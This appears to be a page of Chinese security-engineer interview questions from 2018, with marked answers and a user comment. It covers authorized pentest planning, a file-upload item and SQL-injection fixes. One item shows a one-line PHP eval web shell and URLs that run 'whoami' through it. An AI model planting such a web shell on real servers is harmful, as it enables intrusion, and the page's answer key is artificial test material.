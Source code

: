 1）假设现在需要你对互联网可访问的某测试服务器上搭建的 Web 论坛进行安全测试，简述你的测试思路。（提示：测试已取得授权。回答时可以阐述测试意图测试思路以及会用到哪些工具等）2）如果目标站点是一个正在对外提供服务的在线站点，那么测试的时候还需要额外注意和考虑什么？

你的答案

本题知识点

网易 运维工程师 安全工程师 2018

## 18

假设某网站 www.exploit.com 存在文件上传漏洞，php 语言编写，根目录是 C:\wwwroot，现构造文件名 test.php 上传到服务器目录 C:\wwwroot\upload 下，内容为<?php @eval($_GET['cmd']);?>，请问下面的哪条 url 能够在服务器成功执行 whoami 命令？

正确答案: A   你的答案: 空 (错误)

```cpp
http://www.exploit.com/upload/test.php?cmd=system('whoami');
```

```cpp
http://www.exploit.com/test.php?cmd=system('whoami');
```

```cpp
http://www.exploit.com/upload/test.php?cmd=whoami
```

```cpp
http://www.exploit.com/upload/test.php?eval=system('whoami');
```

本题知识点

网易 运维工程师 安全工程师 2018

讨论

[mark_php](https://www.nowcoder.com/profile/38262677)

Aeval() 函数可以将字符串当作 php 代码来执行，语法为 eval(phpcode)

该字符串必须是合法的 PHP 代码，且必须以分号结尾。

如果没有在代码字符串中调用 return 语句，则返回 NULL。如果代码中存在解析错误，则 eval() 函数返回 false。

发表于 2021-04-13 10:04:56

* * *

## 19

下列那条是正确的 SQL 注入修复方法？

正确答案: B   你的答案: 空 (错误)

```cpp
增加一次性 token
```

```cpp
参数化 SQL 语句
```
